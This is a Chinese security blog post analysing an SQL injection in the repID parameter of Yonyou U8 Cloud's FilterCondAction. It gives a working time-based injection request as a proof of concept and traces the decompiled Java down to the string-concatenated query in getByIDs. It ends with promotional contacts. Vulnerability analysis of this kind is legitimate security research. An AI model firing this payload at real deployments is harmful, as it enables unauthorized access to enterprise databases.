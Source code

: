 #  用友OA系统U8Cloud FilterCondAction SQL注入漏洞分析  
原创 chobits02  C4安全   2025-07-18 13:19  
  
前言  
  
又来到了久违的漏洞分析环节，平时习惯性先把文章投稿到奇安信社区平台，然后再在这上面搬一下自己的文章，师傅们要是蹲第一手分析的话可以关注一下  
  
这次审计的是用友U8 Cloud系统，其中的FilterCondAction  
方法存在SQL注入漏洞，这是闲着没事干翻了三百多个Action方法审计出来的其中一个漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QarzbJ87BroKyQQ1VUCJOao2BJiaCiahY8Q2rft5rag8yQDiab94W94JEibQ/640?wx_fmt=gif&from=appmsg "")  
  
废话不多说，漏洞利用的POC如下  
```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.bi.report.rep.FilterCondAction&method=execute&repID=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```  
  
其中的repID  
参数存在注入，使用延时注入验证下，成功延时5秒  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QaT5iclaXx9LSarnPjGXnYRTTicEIXgEcJ5LRzic0kpaGA1YMAtTMy4AQdQ/640?wx_fmt=png&from=appmsg "")  
  
首先看漏洞位于FilterCondAction  
接口处，方法的完整路径为nc.ui.bi.report.rep.FilterCondAction  
  
  
这里只关注下面的execute方法，完整代码如下  
```
public ActionForward execute(ActionForm actionForm) {  
    FilterCondForm form = (FilterCondForm)actionForm;  
    String repID = getRequestParameter("repID");  
    AdhocModel adhocModel = (AdhocModel)BIWebRepUtil.getRepModel((IUFOAction)this, repID);  
    if (adhocModel == null)  
      return (ActionForward)new ErrorForward(StringResource.getStringResource("mbirep0007"));   
    form.setRepID(repID);  
    FilterValueDescriptor fvd = null;  
    IAdhocAnalyzer[] anas = adhocModel.getDataCenter().getAnalyzerModel().getAnalyzerByType(0);  
    if (anas != null && anas.length > 0) {  
      FilterValueAnalyzer fva = (FilterValueAnalyzer)anas[0];  
      if (fva.getFilterValueDescriptor() != null)  
        try {  
          fvd = (FilterValueDescriptor)fva.getFilterValueDescriptor().clone();  
        } catch (CloneNotSupportedException e) {  
          AppDebug.debug(e);  
        }    
    }   
    if (fvd == null)  
      fvd = new FilterValueDescriptor();   
    IColumnData[] refFields = getRefFields(repID);  
    if (refFields == null || refFields.length == 0)  
      return (ActionForward)new ErrorForward(StringResource.getStringResource("mbirep0008"));   
    FilterCondTableModel model = new FilterCondTableModel(fvd, refFields);  
    form.setFilterCondTableModel(model);  
    addSessionObject(getClass().getName(), fvd);  
    ActionForward actionForward = new ActionForward(FilterCondDlg.class.getName());  
    return actionForward;  
}
```  
  
首先是方法接收传参repID  
，然后直接调用repID  
的有两个方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QaRcmJ5coG4YEicXNSFAZ86uIpWXKcTEJ4508DLZQg9MbHH1yNJ6L2d1w/640?wx_fmt=png&from=appmsg "")  
  
先来看第一个，追踪进入getRepModel  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QauNkibUCeqYp57U47ZWicnwYPznASNZNa30PWFGphvMq7ZLT4icvsITtxg/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到repID  
又进入了下面的loadRepModelFromDB  
方法当中，追踪方法来到其中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QaibEt3ON09w9lnQQJaS8RAWJMynglFCfYoLIk749cXWDM6ciaEPqrU43g/640?wx_fmt=png&from=appmsg "")  
  
  
最后repID  
是进了getByIDs方法当中，最终来到漏洞点  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QaRvWRG3ggFRxX599yBwJ4NELxwhsEHK3icbv5CqbkywDLbGl7aGicr6vg/640?wx_fmt=png&from=appmsg "")  
  
  
代码如下  
```
public ValueObject[] getByIDs(String[] strIDs) throws ReportMngException {  
    int iLen = (strIDs == null) ? 0 : strIDs.length;  
    String sWhere = null;  
    if (iLen != 0) {  
      StringBuffer sbWhere = new StringBuffer();  
      sbWhere.append("pk_reportmodel in (");  
      for (int i = 0; i < iLen; i++) {  
        sbWhere.append("'").append(strIDs[i]).append("' ");  
        if (i < iLen - 1) {  
          sbWhere.append(",");  
        } else {  
          sbWhere.append(")");  
        }   
      }   
      sWhere = sbWhere.toString();  
    }   
    ReportVO[] vos = null;  
    try {  
      vos = (ReportVO[])ReportBO_Client.query(sWhere, DimRescource.UFBI_DATASOURCE);  
    } catch (Exception e) {  
      handleException(e);  
    }   
    return (ValueObject[])vos;  
}
```  
  
分析下，这个漏洞其实和我之前分析的华天动力OA的SQL注入一样，都是append方法拼接SQL语句，恶意语句可以闭和最后的)  
号导致的  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5Qayk98IlLoJzesypoLhTqkJicwaTzpPE5LXz1fGTRJG463iaMjgNHA68VQ/640?wx_fmt=png&from=appmsg "")  
  
  
方法中使用pk_reportmodel in ('+repID+')  
这样拼接SQL，就造成了SQL注入漏洞  
  
就这样简单的结束了(*╹▽╹*)  
  
结语  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券，加入链接：https://wiki.freebuf.com/societyDetail?society_id=184**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
  
  
  
